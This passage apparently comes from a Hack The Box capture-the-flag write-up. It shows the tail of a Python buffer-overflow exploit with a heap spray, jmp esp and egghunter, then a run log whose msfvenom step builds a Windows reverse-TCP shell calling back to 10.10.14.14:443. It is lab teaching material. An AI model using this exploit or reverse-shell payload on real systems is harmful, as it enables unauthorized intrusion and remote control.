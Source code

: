      60 jmp_esp = "f0125062" #p32(0x625012f0)
     61 host = " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
     62 exec_payload = head + junk + jmp_esp + egghunter + host
     63 
     64 print("[*] Sending payload 5 times")
     65 for i in range(5):
     66     p = remote(target, port)
     67     #print(spray_payload)
     68     p.sendline(spray_payload)
     69     p.recv()
     70     p.close()
     71     sleep(0.1)
     72 
     73 print("[+] Payload sent.\n[*] Sleeping 1 second.")
     74 sleep(1)
     75 
     76 print("[*] Sending overflow + egghunter.")
     77 print("[*] Expect callback in 0-15 minutes to %s:%s." % (cb_ip, cb_port))
     78 p = remote(target, port)
     79 p.sendline(exec_payload)
     80 sleep(1)
     81 p.recv()
     82 p.close()



Comments:

-   Lines 15-48 are just about generating the shellcode and cleaning up.
-   Lines 50-73 set up the upcoming web requests.
-   Lines 65-72 send the POST with the shell 5 times
-   Lines 77-83 send the HEAD with the egg hunter payload.

In hindsight, I didn't really use the `pwntools` stuff, and I wish I had
just built it with `requests`.

But, it works:



    root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
    [*] Generating shellcode:
        msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
    [+] Shellcode generated successfully
    [*] Sending payload 5 times
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Payload sent.
    [*] Sleeping 1 second.
    [*] Sending overflow + egghunter.
    [*] Expect callback in 0-15 minutes to 10.10.14.14:443.
    [+] Opening connection to dev.bighead.htb on port 80: Done
